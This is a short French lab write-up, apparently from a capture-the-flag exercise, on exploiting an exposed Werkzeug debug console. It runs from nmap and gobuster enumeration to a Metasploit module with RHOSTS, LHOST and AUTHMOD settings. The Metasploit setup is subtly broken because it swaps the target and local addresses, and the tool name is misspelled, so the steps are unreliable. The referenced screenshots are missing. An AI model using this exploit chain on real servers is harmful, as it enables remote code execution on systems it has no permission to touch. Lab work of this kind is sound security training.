





**Description:**
Werkzeug is a Python-based web application toolkit and is used by popular web frameworks. It facilitates many complex functions related to the HTTP protocol by providing flexibility and modularity.  

Dans ce Lab, nous allons exploiter Waerkzeup ( WSGI)

#### Étape 1:  Énumération 

- **Scan Nmap**

**Commande:**
```
Nmap -sC -sV 172.20.7.89
```

Un seul Port ouvert (80)  avec pour service Werkzeug


Commande:
```
gobuster dir -u http://172.20.7.89/ -w /usr/share/wordlists/dirb/common.txt
```


Boom on a trouvé un endpoint #/console.  Une console Interactive utilisée pour le **débogage** 
Ex
- **Recherche d'exploit** avec Searchsploit



Tous ces exploits exploitent le #/console 

Étape 2: Exploitation avec metasploit

Commande:
```
search werkzeug
use 0 
```


Ensuite 
```
options pour modifier les options

set RHOSTS MY_IP

set LHOST Target_IP

set AUTHMOD none   //Pour désactiver les méthodes d'authentification

exploit //exploiter 
```
